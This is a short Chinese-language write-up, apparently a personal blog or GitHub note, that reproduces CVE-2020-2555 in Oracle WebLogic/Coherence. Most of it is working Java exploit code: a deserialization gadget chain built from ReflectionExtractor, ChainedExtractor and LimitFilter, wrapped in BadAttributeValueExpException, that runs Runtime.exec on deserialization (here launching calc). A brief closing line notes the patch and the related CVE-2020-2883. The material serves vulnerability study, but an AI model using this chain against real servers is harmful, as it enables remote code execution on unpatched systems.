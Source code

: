 # CVE-2020-2555

用windows本机搭建了weblogic就10min的事情....

试试看看自己能不能复现出来吧~

首先知道了漏洞触发点LimitFilter#toString
在ValueExtractor实现类中找到了如下能够执行命令的地方
![image-20230120170405267](https://cdn.jsdelivr.net/gh/zx-creat/myblog@master/img/202301201704468.png)

ReflectionExtractor#extract能够执行命令。

```java
        Runtime runtime = Runtime.getRuntime();
        ReflectionExtractor<Object, Object> objectObjectReflectionExtractor = new ReflectionExtractor<>("exec",new Object[]{new String[]{"calc"}});
        objectObjectReflectionExtractor.extract(runtime);
```

```java
        Runtime runtime = Runtime.getRuntime();
        ReflectionExtractor<Object, Object> objectObjectReflectionExtractor = new ReflectionExtractor<>("exec",new Object[]{new String[]{"calc"}});

        LimitFilter<Object> objectLimitFilter = new LimitFilter<>();
        objectLimitFilter.setComparator(objectObjectReflectionExtractor);
        objectLimitFilter.setTopAnchor(runtime);
        
        objectLimitFilter.toString();
```

没办法反序列化runtime,类似CC，寻找一个能串联起Runtime的方法（换言之就是用ReflectionExtractor获取Runtime的对象并将其串联起来）。
ChainedExtractor#extract

```java
package weblogic.test;

import com.tangosol.util.extractor.ChainedExtractor;
import com.tangosol.util.extractor.ReflectionExtractor;
import com.tangosol.util.filter.LimitFilter;

import javax.management.BadAttributeValueExpException;
import java.io.*;
import java.lang.reflect.Field;

public class Demo {
    public static void main(String[] args) throws IOException, ClassNotFoundException, NoSuchFieldException, IllegalAccessException {
//        Runtime runtime = Runtime.getRuntime();
//        ReflectionExtractor<Object, Object> objectObjectReflectionExtractor = new ReflectionExtractor<>("exec",new Object[]{new String[]{"calc"}});
//
//        LimitFilter<Object> objectLimitFilter = new LimitFilter<>();
//        objectLimitFilter.setComparator(objectObjectReflectionExtractor);
//        objectLimitFilter.setTopAnchor(runtime);
//
//        objectLimitFilter.toString();


        ReflectionExtractor<Object, Object> getRuntime = new ReflectionExtractor<>("getMethod", new Object[]{"getRuntime",null});
        ReflectionExtractor<Object, Object> invoke = new ReflectionExtractor<>("invoke", new Object[]{null, null});
        ReflectionExtractor<Object, Object> exec = new ReflectionExtractor<>("exec", new Object[]{new String[]{"calc"}});


        ReflectionExtractor[] extractors = {
                getRuntime,
                invoke,
                    exec,
        };

        ChainedExtractor<Object, Object> objectObjectChainedExtractor = new ChainedExtractor<>(extractors);
        LimitFilter<Object> objectLimitFilter = new LimitFilter<>();
        objectLimitFilter.setComparator(objectObjectChainedExtractor);
        objectLimitFilter.setTopAnchor(Runtime.class);

        BadAttributeValueExpException badAttributeValueExpException = new BadAttributeValueExpException(null);
        Field val = badAttributeValueExpException.getClass().getDeclaredField("val");
        val.setAccessible(true);
        val.set(badAttributeValueExpException,objectLimitFilter);


        ByteArrayOutputStream byteArrayOutputStream = new ByteArrayOutputStream();
        ObjectOutputStream objectOutputStream = new ObjectOutputStream(byteArrayOutputStream);
        objectOutputStream.writeObject(badAttributeValueExpException);

        ByteArrayInputStream byteArrayInputStream = new ByteArrayInputStream(byteArrayOutputStream.toByteArray());
        ObjectInputStream objectInputStream = new ObjectInputStream(byteArrayInputStream);
        objectInputStream.readObject();


    }
}

```

![image-20230120185459250](https://cdn.jsdelivr.net/gh/zx-creat/myblog@master/img/202301201854402.png)
## 修复
删除了主要是删除掉了LimitFilter#toString方法的调用，类比cc其实还有其他的方法进行调用也就是CVE-2020-2883
